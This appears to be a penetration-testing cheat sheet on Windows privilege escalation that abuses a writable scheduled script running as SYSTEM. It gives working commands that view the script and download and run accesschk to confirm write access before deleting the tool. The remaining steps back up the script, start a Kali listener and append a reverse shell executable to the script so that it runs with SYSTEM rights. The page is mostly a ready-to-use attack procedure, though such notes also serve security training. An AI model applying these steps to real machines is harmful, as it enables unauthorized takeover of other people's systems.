


append a call to a reverse shell executable to the end of the scheduled script
Prerequisites:• already found a scheduled script that run as SYSTEM or high privileges
1. View the script found
C:\> type C:\DevTools\CleanUp.ps1
2. From what is written inside the file this script seems like it is running as the SYSTEM user.
We can check our privileges on this script using accesschk.exe:
PS> (new-object System.Net.WebClient).DownloadFile("https://web.archive.org/web/20071007120748if_/http://download.sysinternals.com/Files/Accesschk.zip", "$env:userprofile\desktop\Accesschk.zip");$ZippedFilePath = "$env:userprofile\desktop\Accesschk.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1";Remove-Item -Path "$env:userprofile\desktop\Accesschk.exe";Remove-Item -Path "$env:userprofile\desktop\Eula.txt";Remove-Item -Path "$env:userprofile\desktop\Accesschk.zip"; As we can see below in this case we can write to this file, which means that we can insert our own commands and have run as SYSTEM(if it run as system) when the script executes.
5. Backup the original script
C:\> copy C:\DevTools\CleanUp.ps1 C:\Temp\
6. Start a listener on Kali.
7. Use echo to append a call to our reverse shell executable to the end of the script(in this case C:\DevTools\CleanUp.ps1):
C:\> echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1 #on Powershell this command does not work!
8. Wait for the scheduled task to run to complete the exploit.
